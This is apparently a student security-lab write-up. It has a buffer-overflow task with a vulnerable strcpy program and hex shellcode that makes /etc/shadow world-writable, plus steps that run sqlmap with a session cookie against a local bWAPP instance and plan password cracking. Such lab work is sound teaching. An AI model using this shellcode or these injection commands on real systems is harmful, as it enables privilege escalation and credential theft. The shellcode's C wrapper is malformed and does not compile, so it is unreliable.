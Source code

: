 # Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

Description text (optional)


``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

Step 1: Install SQL map from this link : https://github.com/sqlmapproject/sqlmap.git

Step 2: Install bWAPP by following the tutorial in this link: https://github.com/quang-ute/Security-labs/tree/main/Web-security/Vulnerable%20Web%20App

Step 3: Login and choose the bug:

![image](https://github.com/user-attachments/assets/e708c4d6-b51c-4125-8683-c5fa7692435c)

Step 4: Select movie and copy the url ( note that: delete query action ) : http://localhost:8025/sqli_2.php?movie=1

![image](https://github.com/user-attachments/assets/84ffb76e-4217-4558-9090-b022dcbdebbf)

![image](https://github.com/user-attachments/assets/3b315eed-2f9b-42ab-a9b7-0f0f7011b964)


Step 5: Open Developer Tool and get cookie value in tab Application

![image](https://github.com/user-attachments/assets/190e9138-8366-40a9-b277-d06cf45cb92d)


Step 6: cd to folder sqlmap and run the code : python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="PHPSESSID=q9s62q6gaojhs1g2meag832sa3;security_level=0"


Step 7: Always type y and the terminal show all the databases

![image](https://github.com/user-attachments/assets/70c022fe-a3b0-4e75-8120-c3426bba3bfe)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:	

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
